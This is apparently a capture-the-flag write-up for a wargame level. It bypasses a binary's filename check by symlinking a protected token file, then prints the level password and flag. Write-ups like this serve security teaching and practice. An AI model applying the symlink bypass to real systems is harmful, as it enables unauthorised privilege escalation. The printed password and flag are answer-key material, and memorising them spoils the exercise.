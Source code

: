 # Level 08

## step 1 : try things
```
$ ./level08 token
You may not access 'token'
```

## step 2 : analyze level08
```
$ strings level08
```
we understand that level blocks access to all files that include the word token.

## step 3 : bind token
```
$ ln -s /home/user/level08/token /tmp/flag08
$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

## step 3 : get level09 password
```
$ su flag08
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
